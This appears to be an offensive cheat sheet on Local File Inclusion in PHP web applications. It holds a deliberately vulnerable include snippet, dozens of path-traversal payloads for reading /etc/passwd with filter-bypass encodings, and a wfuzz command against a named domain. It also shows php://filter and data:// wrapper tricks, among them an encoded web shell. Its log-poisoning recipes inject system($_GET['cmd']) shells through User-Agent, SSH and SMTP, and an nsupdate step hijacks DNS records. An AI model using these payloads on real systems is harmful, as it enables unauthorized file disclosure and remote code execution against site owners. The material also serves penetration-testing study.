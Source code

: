 # Basics
>[!INFO] What is a LFI ?
>An attacker can use **Local File Inclusion** (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even XSS.
Typically, LFI occurs when an application uses the **path to a file as input**. If the application treats this input as trusted, a local file may be used in the include statement.

## Check for LFI

The following is an example of **PHP code that is vulnerable to LFI**.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

* **GET** parameter in URL is vulnerable.

## Payloads

```
http://example.com/index.php?page=../../../etc/passwd
http://example.thm.labs/page.php?file=/etc/passwd 

# NULL BYTE
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 

# FILTER BYPASS TRICKS
http://example.com/index.php?page=....//....//etc/passwd
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# DOUBLE ENCODING
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 ENCODING
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### FUZZ LFI ENDPOINTS

```bash
wfuzz -c -w list-lfi.txt --hc 404,400 --hw 0 https://metabase.peren.fr/api/geojson?url=file:///FUZZ
```

## PHP Wrapper

* Used to read **.PHP files**. It is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. We can use the PHP filter to display the content of PHP files in other encoding formats such as base64 or ROT13.

**Commands**

```
http://example.com/page.php?file=php://filter/resource=/etc/passwd

http://example.com/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd

http://example.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

# LFI 2 RCE

## /proc/self/environ

> Like a log file :

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## Via Apache Log Files

```bash
# /var/log/apache2/access.log
# set inside the user agent or inside a GET parameter a php shell like :
<?php system($_GET['cmd']); ?>
# same for /proc/self/environ
```

## via SSH

```bash
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
# Then include the SSH log files inside the Web Application :
# http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

## via MAIL

> First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.

```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

> In some cases you can also send the email with the mail command line.

```bash
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## Via DNS

> Check for :
>
> ```
> /etc/bind/named.conf
> ```

**Change the DNS record via nsupdate**

```bash
nsupdate
> server $ip_target $port_dns_target
> key $key_algorithm:$name_key $secret
> zone $dns_name
> update add mail.$target_domain 86400 A $ip_host
> send

# start python smtpd server to receive mail
python3 -m smtpd -c DebuggingServer -n $ip_host:25
```
